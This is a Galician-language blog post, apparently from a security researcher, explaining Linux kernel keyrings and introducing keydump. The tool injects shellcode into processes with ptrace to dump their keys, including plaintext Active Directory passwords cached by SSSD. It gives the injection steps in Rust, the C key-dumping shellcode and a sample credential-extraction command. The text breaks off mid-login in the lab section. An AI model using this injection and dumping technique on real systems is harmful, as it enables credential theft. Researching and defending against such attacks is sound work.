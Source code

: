 #+title: Volcado de keyrings con Keydump: Extraendo credenciais en claro de SSSD
#+author: Eloy Pérez González
#+date: 2024-08-31
#+tags[]: linux keyrings sssd
#+toc: True

Boas xente!!

Fai tempo estiven trangallando cos [[https://www.man7.org/linux/man-pages/man7/keyrings.7.html][keyrings]] de Linux para extraer tickets de
Kerberos con [[https://github.com/zer1t0/tickey][tickey]], e recentemente vinme envolto nun novo proxecto no que
precisaba volver a aprender sobre o tema, así que vou a describir aquí o
proxecto e os conceptos mais relevantes sobre os keyrings por se eu ou outra
persoa ten que aprendelos no futuro.

O primeiro que temos que saber é que o que se coñece como keyrings de Linux, é
un xestor de chaves. As chaves son entidades que poden ser usadas polos
programas para almacenar segredos, como contrasinais ou certificados, de xeito
seguro na memoria do kernel, evitando que outros programas ou usuarias poidan
acceder a eles.

Dito isto, vamos ao tema!

* O comezo
:PROPERTIES:
:custom_id: o-comezo
:END:

O caso é que eu estaba fuchicando un pouco con sssd despois de leer sobre
[[https://github.com/CiscoCXSecurity/linikatz][linikatz]] e revisando a documentación de [[https://linux.die.net/man/5/sssd-krb5][sssd-krb5]] atopeime ca seguinte nota na
opción ~krb5_store_password_if_offline~: 
#+caption:  
#+begin_src 
krb5_store_password_if_offline (boolean)
    Store the password of the user if the provider is offline and use it to request a TGT when
    the provider comes online again.

    NOTE: this feature is only available on Linux. Passwords stored in this way are kept in
    plaintext in the kernel keyring and are potentially accessible by the root user (with
    difficulty).

    Default: false
#+end_src

Que traducido sería:
#+caption: 
#+begin_src 
krb5_store_password_if_offline (boolean)
    Garda o contrasinal da usuaria se o proveedor está desconectado e usaá para pedir un TGT
    cando o proveedor volva estar dispoñible.

    NOTA: esta característica so está dispoñible en Linux. Os contrasinais almacenados deste
    xeito manteñense en texto claro no keyring do kernel e son potencialmente accesibles pola
    usuaria root (con dificultade).

    Por defecto: false
#+end_src

Aquí hai que ter en conta varias cousiñas:

Primeiro, e tal vez o mais importante, é que *os contrasinais almacenanse en
texto claro* nos keyrings. Na documentación tamén se indica que poden ser
accedidos pola usuaria root con dificultade. Pero, que significa dificultade?
Dende o meu punto de vista quere dicir que non hai todavía ningunha ferramenta
para facelo, así que iso é o que me propuxen facer.

Outro feito importante é que os contrasinais so se almacenan *cando o proveedor
está desconectado*. Nun escenario de Active Directory (AD), isto significa que
os contrasinais so se gardarán cando non se poida conectar co Controlador de
Dominio (DC), polo que o ataque é menos plausible. Sen embargo, se somos root na
máquina podemos forzala a perder conectividade co Controlador de Dominio
aplicando unha regra no firewall, por exemplo, de modo que poidamos recolectar
contrasinais dos novos usuarios que inician sesión na máquina. Non obstante,
para este propósito seguramente sexa máis fácil e fiable crear un módulo falso
de PAM. Dito isto, eu fíxeno igualmente pola diversión do reto.

E por último pero non por elo menos importante, o valor por defecto da opción
~krb5_store_password_if_offline~ é ~false~. Isto significa que se non se
especifica esta opción as contrasinais non se van a almacenar. Sen embargo, por
defecto [[https://linux.die.net/man/8/sssd][sssd]] pon esta opción a ~true~, así que non temos problema.

Polo tanto para extraer os contrasinais precisaba unha ferramenta capaz de
extraer as chaves dos keyrings doutros procesos. Como dixen antes, isto é algo
que xa fixera cando creei [[https://github.com/zer1t0/tickey][tickey]], mais esta ferramenta está moi orientada a
tickets de Kerberos. Polo que pensei que tocaba crear unha ferramenta mais
xenérica para extraer todas as chaves contidas nos keyrings de calquera proceso
(ou fío) sen importar o propósito.

Así é como naceu [[https://github.com/zer1t0/keydump][keydump]][fn:keydump], e no resto do artigo vou explicar os conceptos detrás
de keydump para que podamos entender a súa funcionalidade.

Pero para os mais impacientes xa vos dexio por aquí un adianto de como keydump
nos permite extraer as chaves onde se gardan os contrasinais, neste caso do
proceso sssd:

#+caption: Extracción de credenciais de sssd con keydump
#+begin_src 
$ ps -o pid --no-headers -C sssd | sed 's/ //g' | sudo ./keydump -
[PID 452] Shellcode injected
[PID 452] /tmp/k_452 exists, so keys must be dumped!!
$ sudo cat /tmp/k_452/210e3b29_user_Administrator_dev_lab__10
S3cur3p4ss
#+end_src

* O problema
:PROPERTIES:
:custom_id: o-problema
:END:

Así que queremos extraer as chaves dos keyrings doutros procesos? O problema é
que están deseñadas xusto para evitar isto.

As chaves de Linux pódense crear de xeito que so o propio proceso (ou incluso
fío) que as creou poida leelas. No caso de sssd, podemos ver como se crea a chave
na seguinte liña da función [[https://github.com/SSSD/sssd/blob/077d2993a1b306e7cfe61618cbd5d03c602572f8/src/providers/krb5/krb5_delayed_online_authentication.c#L287][add_user_to_delayed_online_authentication]]:

#+caption: Código de sssd para gardar un contrasinal nunha chave
#+begin_src c
    new_pd->key_serial = add_key("user", new_pd->user, password, len,
                                 KEY_SPEC_SESSION_KEYRING);
#+end_src

Para que nos entendamos, sssd está usando unha chave que so pode ser lida por
procesos da súa mesma sesión (non unha sesión de usuario, senón unha
[[https://www.informit.com/articles/article.aspx?p=397655&seqNum=6][sesión de procesos]] creada con [[https://www.man7.org/linux/man-pages/man2/setsid.2.html][setsid]]). Polo tanto, poderíamos seguir unha
aproximación semellante á que usei con [[https://github.com/zer1t0/tickey][tickey]], que é inxectar un novo proceso
nesa sesión acoplándonos con [[https://www.man7.org/linux/man-pages/man2/ptrace.2.html][ptrace]] a sssd e forzalo a facer un [[https://www.man7.org/linux/man-pages/man2/fork.2.html][fork]] para crear
un novo proceso que volcará as chaves por nos. Porén, nesta ocasión a miña
aproximación foi intentar extraer as chaves dende o propio proceso de sssd por
varias razóns:

- Pode que no futuro se modifique esta chave e so poda ser accedida polo propio
  proceso.

- Extraer dende o propio proceso permitirá que a ferramenta se poda usar para
  outros programas que so permitan ao propio proceso leer a chave.

- E a razón de verdade, porque quería facelo así e verificar se o podía facer
  inxectando unha shellcode baseada no meu proxecto [[https://github.com/zer1t0/shellnova][shellnova]].

Imos a ver como se pode facer isto.

#+begin_quote
Destacar que en Linux, os fíos impleméntanse como procesos lixeiros, polo que
cada un pode ter as súas propias credenciais. Esta é a razón pola que os fíos
poden ter chaves que so sexan accedidas por eles.

Isto tamén significa que inxectar código nun fío é o mesmo que inxectalo nun
proceso, soamente precisamos especificarlle o TID (ID do fío) no canto do PID á
syscall ~ptrace~. De feito, cando falamos de PID, simplemente estamos a
referirnos ao TID do fío principal do proceso.
#+end_quote

* Keyrings
:PROPERTIES:
:custom_id: keyrings
:END:

O primeiro que temos que saber é como se extraen as chaves dun proceso, que como
xa mencionei, almacénanse na memoria do kernel. Neste apartado vou intentar
describir todos os puntos relevantes para o noso propósito, pero que se queres
mais información podes atopala no [[https://www.man7.org/linux/man-pages/man7/keyrings.7.html][manual de keyrings]].

#+begin_quote
Gustaríame destacar que as keyrings de Linux non son a única solución de
keyrings, senon que existen outras como as [[https://wiki.gnome.org/Projects/GnomeKeyring/][keyrings de GNOME]], que non son
manexadas polo kernel Linux.
#+end_quote

Para leer o contido dunha chave, precisamos saber o seu ID, xa que o necesitamos
para realizar a operación ~KEYCTL_READ~ da [[https://www.man7.org/linux/man-pages/man2/keyctl.2.html][syscall keyctl]]. No noso caso queremos
leer todas as chaves do proceso, así que como podemos obter os seus IDs?

** O ficheiro /proc/keys
:PROPERTIES:
:custom_id: o-ficheiro-proc-keys
:END:

So precisamos leer o ficheiro ~/proc/keys~, que é un pseudo-ficheiro do
[[https://www.man7.org/linux/man-pages/man5/proc.5.html][sistema de ficheiros proc]] que indica as chaves dispoñibles para o proceso que o
lee. Aquí temos un exemplo:

#+caption: Chaves dispoñibles para o proceso cat
#+begin_src
$ cat /proc/keys
00c58dad I--Q---    58 perm 3f030000  1000  1000 keyring   _ses: 1
0ae2c7d1 I--Q---     1 perm 3f010000  1000  1000 user      user_secret: 6
102e811f I--Q---   104 perm 3f030000  1000  1000 keyring   _ses: 2
244b527f I--Q---     4 perm 1f3f0000  1000 65534 keyring   _uid.1000: empty
2729088e I--Q---     1 perm 1f3f0000  1000 65534 keyring   _uid_ses.1000: 1
#+end_src

Como podemos apreciar, hai unha liña por chave, un formato moi común no mundo
Unix. En cada liña temos varios campos que describen cada chave. Imos revisalos
para entendelos.

O primeiro campo é o *ID da chave*, tamén chamado número de serie, que
identifica de forma única a cada chave. Esta é a información que mais nos
interesa do ficheiro, pero imos explorar tamén os outros campos.

O segundo campo son as *flags de estado* de cada chave. O que precisamos
comprobar aquí é que teña a flag ~I~, que indica que a chave está instanciada,
ou sexa, que foi creada. Isto igual soa raro porque, non está todas as chaves
creadas? Non necesariamente, xa que algunhas chaves poden ser pedidas e ter que
ser creadas por outro programa, como se describe en [[https://www.man7.org/linux/man-pages/man2/request_key.2.html][request_key(2)]], e nese caso
estarán "en construcción" ata que se creen, o que se indica ca flag ~U~.

O terceiro campo coñecido como *uso*, indica cantos enlaces apuntan á
chave. Unha chave pode estar enlazada por un keyring, que é un tipo de chave
especial que ten enlaces a outras chaves, algo así coma unha carpeta.Se unha
chave, incluidos os keyrings, perde todos os seus enlaces, é borrada. Por esta
razón algúns keyrings, os keyrings ancla, precisan ser enlazados dende as
estructuras do kernel.

O cuarto campo é o *tempo de expiración da chave* e o termo ~perm~
(permanente) indica que a chave non expira. Unha chave expirada non se pode usar
e será borrada.

O quinto campo son os *permisos*, que teñen catro conxuntos, un byte por conxunto
(dous díxitos hexadecimais), que fan referencia ó fío ou proceso posuidor,
usuaria, grupo e permisos de outras usuarias. Os últimos 3 son semellantes aos
permisos de ficheiros, pero o posuidor é mais complicado e require unha
explicación a maiores, que darei abaixo. Ademais, os permisos tamén son
diferentes dos que podemos atoparnos para os ficheiros.

E despois temos os IDs da *usuaria* e o *grupo* de cada chave, que identifica á
usuaria e grupo propietarios de cada chave (que non é o mesmo que
posuidores). Un valor de 65534 (-1 nun enteiro con signo) no campo do grupo
quere decir que a chave non ten grupo.

O oitavo grupo é o *tipo de chave*. Existen varios tipos de chaves con
diferentes características, e algunhas delas nin sequeran soportan as operacións
de lectura polo que o seu contido non se pode obter (alomenos dende o espazo de
usuario). Os tipos mais comúns de chaves son os seguintes:

- *user*: Un tipo de chave xenérica que permite gardar segredos na memoria do
  kernel (cun tamaño de ata 32767 bytes) e leelos dende o espazo de usuario.

- *keyring*: Contén enlaces a outras chaves (incluídos outros keyrings). Este é
  un tipo especial de chave xa que funciona coma unha "carpeta" que permite ás
  chaves poder ser buscadas pola súa descripción.

- *logon*: É coma a chave user, pero non permite leer os seu contido dende o
  espazo de usuario.

- *big_key*: É como a chave user, pero permite un contido maior (de ata 1
  MiB). O tema é que cando o kernel non ten espazo, almacena este tipo de chaves
  cifradas nun sistema de ficheiros tmpfs.

- [[https://docs.kernel.org/crypto/asymmetric-keys.html][*asymmetric*]] : Permite gardar chaves privadas e públicas, ou so a pública. Non
  permite operacións de lectura dende o espazo de usuario, pero si cifrado,
  descifrado, firmado e verificado de firmas.

Existen outros tipos de chaves (como [[https://github.com/torvalds/linux/blob/bfa8f18691ed2e978e4dd51190569c434f93e268/certs/blacklist.c#L138][blacklist]], [[https://github.com/torvalds/linux/blob/bfa8f18691ed2e978e4dd51190569c434f93e268/crypto/asymmetric_keys/pkcs7_key_type.c#L70][pkcs7]], [[https://github.com/torvalds/linux/blob/bfa8f18691ed2e978e4dd51190569c434f93e268/fs/crypto/keyring.c#L173][.fscrypt]], etc) que non
listo porque non sei o seu propósito, pero se tes curiosidade, podes descubrilas
buscando polo uso da función "register_key_type" no
[[https://github.com/torvalds/linux][código fonte do kernel Linux]].

O último campo está composto por dous, que son o *nome ou descripción* da chave,
que pode usarse para buscar a chave nos keyrings, e *metadatos* con información
que varía dependendo do tipo de chave, por exemplo, para os keyrings os
metadatos amosan o número de enlaces que contén, e para as chaves de tipo user
especifica o seu tamaño en bytes.

Coa información que sacamos do ficheiro ~/proc/keys~ estamos listos para
intentar volcar o contido de tódalas chaves. A miña forma de proceder foi
simplemente leer ~/proc/keys~ e tratar de leer todas as chaves listadas, que é
moito máis fácil que leer os permisos e intentar adiviñar cales se poden leer.

** Os permisos das chaves
:PROPERTIES:
:custom_id: os-permisos-das-chaves
:END:

Así e todo, a pesares de que penso que unha aproximación de forza bruta é unha
boa decisión para leer as chaves dun proceso, se queremos leer unha chave
específica, tratar de inxectarnos e tódolos procesos (e fíos) do sistema ata que
atopemos un que a poida leer tal vez no sexa a mellor decisión, polo que serén
capaces de entender os permisos dunha chave pode axudarnos a saber en que
proceso inxectarnos.

Como comentei previamente, os permisos están formados por catro conxuntos, e
para cada un deles temos os seguintes permisos:

- *view* (0x01): Permite leer os atributos das chaves. As chaves para as que un
  proceso ten permisos de view son as listadas en ~/proc/keys~.

- *read* (0x02): Permite leer o contido da chave. Con todo, algúns tipos de
  chaves como "logon" ou "asymmetric" non soportan operacións de lectura.

- *write* (0x04): Permite actualizar o contido da chave e revocala.

- *search* (0x08): Permite que a chave sexa atopada nunha búsqueda, que ven a
  ser buscar por unha chave a través dos keyrings pola súa descripción/nome.

- *link* (0x10): Permite crear novos enlaces que apuntan á chave.

- *setattr* (0x20): Permite revocar unha chave, cambiar os permisos e o seu uid
  (id de usuario) e gid (id de grupo), indicar un tempo de expiración e aplicar
  restriccións nos keyrings (que implica que as chaves engadidas a eles deben
  estar firmadas).

Ademais, temos os catro conxuntos de permisos que son o posuidor, usuaria, grupo
e outras. Como nos podemos imaxinar, a usuaria e grupo aplican á usuaria e grupo
propietarias da chave, e o conxunto outras a calquera outra usuaria.

Imos ver un exemplo dunha liña de ~/proc/keys~:
#+caption: 
#+begin_src
0ae2c7d1 I--Q---     1 perm 3f010000  1000  1000 user      user_secret: 6
#+end_src

Podemos observar que os permisos para a chave ~user_secret~ son ~3f010000~, o
cal significa que todos os permisos son concedidas ó posuidor, mentres que a
usuaria so ten permisos de vista e o grupo e outras non teñen ningún.

Ademais, debemos ter en mente que igual que nos ficheiros, *os permisos de
usuaria, grupo e outras son exclusivos*, o que significa que se a usuaria do
proceso que intenta acceder á chave é a mesma ca usuaria da chave, os permisos
de usuaria serán aplicados, e non os permisos de grupo ou outras, incluso se
estes (por algún curiosos motivo) son mais permisivos cos da usuaria. Pasa o mesmo
para os permisos de grupo. E no caso de non coincida nin a usuaria nin o grupo,
aplicaran os permisos definidos para outras usuarias.

Por outra parte temos os *permisos dos posuidores*, que son importantes xa que
polo xeral os procesos posuidores son as que mais privilexios teñen sobre a
chave. Pero os permisos dos posuidores son diferentes en varios aspectos:

- *Son inclusivos*: Os permisos de posuidor aplícanse xunto co outro dos
  tres conxuntos de permisos que se lle aplique ao proceso. Isto significa, que
  se por exemplo, a un proceso se lle aplican os permisos de usuaria e posuidor,
  e os permisos de posuidor so permiten escribir, mentres que os de usuaria so
  permiten leer, entón o proceso poderá leer e escribir.

- *Son dinámicos*: Os permisos de posuidor so se aplican se a chave é posuida polo
  proceso, e isto calcúlase cada vez que se accede á chave.

Así que, como podemos saber se unha chave é posuida por un proceso? Precisamos
seguir os enlaces dende os keyrings ancla.

Estupendo, isto deixanos con outra pregunta, *que son os keyrings ancla?* Se fas
memoria, arriba dixen que cada chave, incluídos os keyrings, precisan ter
alomenos ser referenciadas unha vez para non serén eliminadas polo kernel. De
feito, cada vez que se crea unha chave (coa syscall [[https://www.man7.org/linux/man-pages/man2/add_key.2.html][add_key]]) é preciso indicar
un keyring que conterá un enlace a dita chave (a mesma situación que nos
ficheiros, xa que precisan ser creados nunha carpeta). Agora imaxina que
queremos crear o noso primeiro keyring que vai ter os enlaces ao resto de
chaves, que keyring apuntará ao noso primer keyring? A resposta é un
[[https://man.archlinux.org/man/keyrings.7.en#Anchoring_keys][keyring ancla]]. *Os keyrings ancla son keyrings especiais que están enlazados a
estructuras do kernel.* E varios deles, se os combinamos coa posesión de chaves,
permiten que certas chaves so sexan accesibles dende certos contextos.

Estes son os kernels ancla dispoñibles (que polo xeral son creados polo kernel
cando son accedidos):

- *Keyrings de proceso*: Estes keyrings están enlazados ás credenciais dos
  procesos. Existen tres tipos con diferentes ámbitos:
  + [[https://www.man7.org/linux/man-pages/man7/thread-keyring.7.html][thread-keyring]] (keyring de fío): So pode acceder a él o fío actual. Ten o
    nome /_tid/.
  + [[https://www.man7.org/linux/man-pages/man7/process-keyring.7.html][process-keyring]] (keyring de proceso): Poden acceder a él tódolos fíos do
    proceso. Ten o nome /_pid/.
  + [[https://www.man7.org/linux/man-pages/man7/session-keyring.7.html][session-keyring]] (keyring de sesión): Poden acceder a él tódolos procesos da
    sesión do usuario (xa que é creado por [[https://linux.die.net/man/8/pam][PAM]]). Ten o nome /_ses/.

- *Keyrings de usuario*: Estes keyrings están enlazados a estructuras da usuaria
  no kernel, polo que so poden ser usados mentres a usuaria ten unha sesión
  activa.
  + [[https://man7.org/linux/man-pages/man7/user-keyring.7.html][user-keyring]] (keyring de usuaria): Poden acceder a él tódolos procesos da
    usuaria. O seu nome é /_uid.<uid>/ onde <uid> tense que reemplazar polo uid
    da usuaria.
  + [[https://man7.org/linux/man-pages/man7/user-session-keyring.7.html][user-session-keyring]] (keyring da sesión de usuaria): Poden acceder a él
    tódolos procesos da usuaria. Soamente se usa no caso de que non se creé o
    keyring de sesión. Ten o nome /_uid_ses.<uid>/ onde <uid> tense que
    reemplazar polo uid da usuaria.

- [[https://man7.org/linux/man-pages/man7/persistent-keyring.7.html][Persistent keyring]] (keyring persistente): Poden acceder a él todos os procesos
  da usuaria, pero non se destrúe cando a usuaria finaliza a súa sesión. Está
  pensado para ser usado por servizos en segundo plano que actúan en nome da
  usuaria. Ten un tempo de expiración, polo que se non se usa nese tempo
  elimínase. O seu nome é /_persistent.<uid>/ onde <uid> tense que reemplazar
  polo uid da usuaria.

Estes son os keyrings ancla que temos no sistema. Son parecidos ao directorio
raíz dun sistema de ficheiros, sobretodo os keyrings de proceso, que son os
usados na posesión.

Así que, *que é a posesión?* e como se calcula? A resposta é que unha chave é
posuída cando esta concede o permiso /search/ e pódese chegar ata ela navegando
polos enlaces dos keyrings partindo dende o keyring de fío, de proceso ou de
sesión. Se queres coñecer o algoritmo en detalle podes consultalo na
[[https://man.archlinux.org/man/keyrings.7.en#Possession][sección Possession de keyrings(7)]].

* Sobre keydump
:PROPERTIES:
:custom_id: sobre-keydump
:END:

Ben, agora que sabemos o que son as chaves e somos conscientes de que algunhas
chaves so son accesibles den un proceso ou fío, precisamos unha forma de
extraelas. A mín ocórrenseme dúas posibilidades:

- Executar código no contexto do proceso (ou fío) con acceso a unha chave
  obxetivo.
- Leer as chaves dende o espazo de kernel cun módulo de Linux.

Eu decanteime pola primeira opción xa que me era mais fácil ao non estar eu
familiarizado coa programación de módulos de Linux (pero é un bo proxecto para o
futuro).

Polo tanto, para executar no contexto doutro proceso podemos comportarnos coma
un depurador (debugger) e inxectar unha shellcode no proceso. Eu asumo que temos
privilexios de root, polo que poderemos acoplarnos a calquera proceso coa syscall
[[https://www.man7.org/linux/man-pages/man2/ptrace.2.html][ptrace]] (salvo que o sistema esté hardenizado).

** A inxección
:PROPERTIES:
:custom_id: a-inxeccion
:END:

Como podemos levar a cabo unha
[[https://blog.f0b.org/2022/05/process-injection-on-linux-injecting-into-processes/][inxección de código con ptrace]][fn:linux-process-injection]? Estes son os pasos que eu seguín en keydump
para inxectar unha shellcode nun proceso:

1. Acoplámonos ao proceso obxetivo
2. Buscamos unha instrucción syscall
3. Executamos [[https://www.man7.org/linux/man-pages/man2/mmap.2.html][mmap]] para reservar memoria para a shellcode
4. Copiamos a shellcode á memoria do proceso remoto
5. Chamamos á shellcode

Podedes atopar estes pasos na [[https://github.com/zer1t0/keydump/blob/1c0a26a959b4409865a511a5549e1eaad3d3d6d8/src/main.rs#L92][función dump_remote_process_keys de keydump]]. E
para cada un deles aquí está o código e unha explicación:

*** 1. Acoplámonos ao proceso obxetivo
:PROPERTIES:
:custom_id: 1-acoplamonos-ao-proceso-obxetivo
:END:

#+begin_src rust
tracer::basics::attach_process(pid)?;
#+end_src

Este paso require executar unha operación ~PTRACE_ATTACH~ na syscall ptrace e
agardar que o proceso remoto se pare.

*** 2. Buscamos unha instrucción syscall
:PROPERTIES:
:custom_id: 2-buscamos-unha-instruccion-syscall
:END:

#+begin_src rust
let syscall_addr = tracer::x64::syscall::search_syscall_inst_nearby(pid)?;
#+end_src

Nos próximos pasos precisamos chamar á syscall mmap para reservar memoria para a
shellcode. Iso podemos facelo redirixindo a execución do programa á unha
instrucción syscall para o cal temos que poñer a dirección da instrucción
syscall no contador do programa, que é o rexistro ~rip~ en x64.

Polo tanto, precisamos atopar unha instrucción de syscall na memoria do
proceso. Xa que polo xeral despois de acoplarnos a él, o proceso se detén cando
chama a unha syscall, eu vou comprobar se este é o caso e gardarme a dirección
desta instrucción. Noutros casos o meu programa fallará, pero poderíase
facer un escaneo da memoria para buscar unha instrucción syscall, ou continuar a
execución do proceso ata que se execute unha syscall (que se pode facer con
~PTRACE_SYSCALL~). 

*** 3. Executamos mmap para reservar memoria para a shellcode
:PROPERTIES:
:custom_id: 3-executamos-mmap-para-reserver-memoria-para-a-shellcode
:END:

#+begin_src rust
let mmap_addr = tracer::x64::syscall::exec_mmap_x64(
        pid,
        syscall_addr,
        0,
        shc.len() as u64,
        libc::PROT_READ | libc::PROT_WRITE | libc::PROT_EXEC,
        libc::MAP_PRIVATE | libc::MAP_ANONYMOUS,
        -1,
        0,
    )?;
#+end_src

Para invocar unha [[https://www.man7.org/linux/man-pages/man2/mmap.2.html][syscall mmap]], temos que por o rexistro ~rip~ apuntando á
instrucción syscall que atopamos e pasarlle os argumentos a mmap establecendo
os seus valores nos rexistros ~rdi~, ~rsi~, ~rdx~, ~r10~, ~r8~,
~r9~[fn:linux-syscall-calling-convention]. Temos que ter en conta que precisamos
reservar unha zona de memoria que nos permita escribir e executar (e leer) para
escribir e executar a shellcode (ademais, neste caso a nosa shellcode tamén
require estes permisos para executarse correctamente).

Ora ben, antes de sobreescribir os rexistros, necesitamos gardar os seus valores
orixinais para restauralos despois. Cando teñamos o respaldo feito, executamos a
instrucción syscall facendo unha operación single-step que nos permite executar
soamente unha instrucción (a de syscall) e retomar o control do proceso
obxetivo. Entón leemos o valor devolto por mmap, que se atopa no rexistro ~rax~,
e restauramos o valor orixinal dos rexistros para evitar corromper o proceso
obxetivo.

*** 4. Copiamos a shellcode á memoria do proceso remoto
:PROPERTIES:
:custom_id: 4-copiamos-a-shellcode-a-memoria-do-proceso-remoto
:END:

#+begin_src rust
tracer::x64::basics::write_memory_x64(pid, map_addr, shc)?;
#+end_src

Como resultado do mmap, temos reservada unha rexión de memoria para escribir a
nosa shellcode. Agora podemos transferir a nosa shellcode ao proceso remoto
escribindo os bytes no pseudo-ficheiro ~/proc/<pid>/mem~, onde o pid é o pid do
proceso remoto.

*** 5. Chamamos á shellcode
:PROPERTIES:
:custom_id: 5-chamamos-a-shellcode
:END:

#+begin_src rust
let rip = tracer::x64::register::rip(pid)?;

tracer::x64::basics::stack_push_x64(pid, rip - rip_offset)?;

tracer::x64::register::set_rip(pid, map_addr + rip_offset)?;
#+end_src

Para chamar á shellcode precisamos poñer no rexistro ~rip~ a dirección onde
acabamos de copiar á shellcode. Ademais, como tamén queremos restaurar o fluxo
normal de execución do proceso cando a nosa shellcode termine de executarse,
insertamos na pila, como dirección de retorno, a dirección da instrucción onde
se detivo o proceso.

Tal vez te decates de que hai unha variable chamada ~rip_offset~, que é? Cando
un proceso obxetivo é interrumpido por un acoplamento con ptrace, pode ser que
estea no medio dunha syscall. Neste caso, o rexistro ~rip~ apuntará á seguinte
instrucción, pero o proceso necesita continuar na instrucción syscall para
repetila (xa que non se deu completado) e evitar un comportamento
inesperado. Isto é precisamente o que fai o depurador ao desacoplarse do proceso
(operación PTRACE_DETACH), restarlle 2 ao ~rip~ (o tamaño da instrucción syscall
en x64) para evitar problemas. E para manexar esta situación (non tan) especial
incluín a variable ~rip_offset~ cuxo valor é 2 cando o proceso se detén nunha
syscall.

Debido a isto indiqueille que a dirección da shellcode é a dirección devolta por
mmap mais o desplazamento que será restado cando me desacople do proceso
obxetivo. Ademais a dirección de retorno debería ser a instrucción
á que apunta ~rip~, ou no caso da situación previamente descrita, a instrucción
syscall anterior, polo que hai que restar 2 a ~rip~.

En resumo, o que estamos a facer é simular unha instrucción ~call~ para invocar
á nosa shellcode (é importante decatarse de que é responsabilidade da
shellcode, unha vez teña feito o seu traballo, restaurar os valores dos
rexistros ao seu estado orixinal para que o proceso non pete). Entón, cando a
dirección de retorno estea posta na pila e ~rip~ apunte á dirección da nosa
shellcode, debemos desacoplarnos do proceso. Unha vez feito isto, o proceso
obxetivo continuará correndo, executando a nosa shellcode e finalmente
recuperando o seu fluxo de execución normal.

*** Paso extra: Comprobamos que o volcado foi feito
:PROPERTIES:
:custom_id: paso-extra-comprobamos-que-o-volcado-foi-feito
:END:

Tras inxectar a shellcode no proceso obxetivo, esta creará un cartafol en ~/tmp~
que conterá ficheiros cos contidos das chaves lexibles polo proceso remoto. Polo
tanto, despois de inxectar a nosa shellcode, agardamos un anaco e comprobamos se
se creou dita carpeta.

** A shellcode
:PROPERTIES:
:custom_id: a-shellcode
:END:

A outra parte importante de keydump é a shellcode a inxectar no proceso
obxetivo. Para crear a shellcode usei [[https://github.com/zer1t0/shellnova][shellnova]][fn:shellnova], un proxecto meu
que da unha plantilla para a creación de shellcodes que permite o seguinte:

- Crear a shellcode dende código C
- Resolución de símbolos da libc, para poder usalos dende a shellcode
- Borrado do implante unha vez este termina, para non deixar rastro

A shellcode, como xa dixen na sección dos keyrings, listará as chaves lendo o
ficheiro ~/proc/keys~ e tratará de obter o contido de cada chave e gardalo nun
ficheiro no cartafol ~/tmp/k_<tid>~ onde ~<tid>~ é o tid do fío obxetivo. Aquí
vos deixo o código (da función [[https://github.com/zer1t0/keydump/blob/1c0a26a959b4409865a511a5549e1eaad3d3d6d8/implant/src/main.c#L145][dump_keys]]) que se encargará diso:

#+caption: 
#+begin_src c
    sprintf_d(keys_dir, "/tmp/k_%d", tid);
    err = mkdir_z(keys_dir, 0755);
    if (err != 0 && err != -EEXIST) {
        LOG_PRINTF("Error mkdir: %d\n", err);
        goto close;
    }

    dp = opendir_d(keys_dir);
    if(!dp) {
        PRINTF("Error opendir");
        goto close;
    }
    dir_fd = dirfd_d(dp);

    fp = fopen_d("/proc/keys", "r");
    if(!fp) {
        PRINTF("Error opening /proc/keys");
        goto close;
    }

    while ((nread = getline_d(&line, &len, fp)) != -1) {
        sscanf_d(line, "%lx %s %d %s %x %d %d %s", &k_id, k_flags, &k_state, k_expiration, &k_perms, &k_uid, &k_gid, k_type);
        if(read_key(k_id, &key_data, &key_data_size) == 0){
            desc = extract_description(line);
            if(!desc) {
                desc = "";
            }
            // printf("%s\n", desc);
            normalize_description(desc);
            // printf("Key len of %lu\n", key_data_size);
            sprintf_d(k_filename, "%lx_%s_%s", k_id, k_type, desc);
            write_to_file(dir_fd, k_filename, key_data, key_data_size);
            free_d(key_data);
        }
    }
#+end_src

* Atacando SSSD
:PROPERTIES:
:custom_id: atacando-sssd
:END:

Agora que entendemos como funciona keydump, é hora de realizar o ataque, para o
cal precisamos unha máquina GNU/Linux unida a Active Directory mediante
sssd. Non me vou a meter como facer isto, pero podes consultar o seguinte
tutorial:

- [[https://hackliza.gal/posts/linux-en-ad/][Como unir Debian a Active Directory]]

Despois de montar o laboratorio, deberías ser quen de iniciar sesión mediante
ssh na máquina obxetivo. Deste xeito:

#+begin_src 
$ ssh Administrator@dev.lab@lab-debian
Administrator@dev.lab@192.168.122.241's password: 
Linux debian 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

